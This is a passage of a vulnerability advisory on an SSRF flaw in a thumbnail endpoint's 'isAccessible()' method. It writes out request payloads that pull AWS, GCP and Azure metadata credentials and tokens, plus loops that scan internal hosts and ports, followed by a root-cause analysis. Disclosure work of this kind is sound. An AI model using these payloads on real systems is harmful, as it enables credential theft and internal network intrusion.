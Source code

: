 **2. Cloud Metadata Access**
```bash
# AWS metadata (if deployed on EC2)
GET /thumbnails/-/via-uri?uri=http://169.254.169.254/latest/meta-data/iam/security-credentials/

# GCP metadata (if deployed on GCE)
GET /thumbnails/-/via-uri?uri=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token

# Azure metadata (if deployed on Azure VM)
GET /thumbnails/-/via-uri?uri=http://169.254.169.254/metadata/instance/compute/azEnvironment?api-version=2021-02-01
```

**3. Internal Network Reconnaissance**
```bash
# Scan internal network ranges
for ip in 192.168.1.{1..254}; do
  GET /thumbnails/-/via-uri?uri=http://$ip:80/
done

# Port scanning via response timing
GET /thumbnails/-/via-uri?uri=http://internal-server:22/    # SSH
GET /thumbnails/-/via-uri?uri=http://internal-server:3306/  # MySQL
GET /thumbnails/-/via-uri?uri=http://internal-server:5432/  # PostgreSQL
```

### SSRF Capabilities

**Response-based Information Disclosure:**
- **Accessible URLs:** Return 404 (thumbnail generation fails)
- **Inaccessible URLs:** Return 404 (isAccessible() fails)
- **Timing Attacks:** Response delays indicate network connectivity
- **Error Patterns:** Different error messages reveal service types

---

## 🛡 Root Cause Analysis

### Vulnerable Code Pattern

The `isAccessible()` method in `ThumbnailEndpoint.java` is the core vulnerability:

**Security Weaknesses:**
1. **No URL validation:** Accepts any URI scheme and host
2. **No private IP filtering:** Allows internal network access (`127.0.0.1`, `192.168.x.x`, etc.)
3. **Public accessibility:** No authentication required (granted via `role-template-anonymous.yaml`)
4. **GET requests with Range header:** Minimal data retrieval but full SSRF capability
5. **Response-based information disclosure:** Different HTTP status codes reveal internal service states

### Attack Chain Analysis

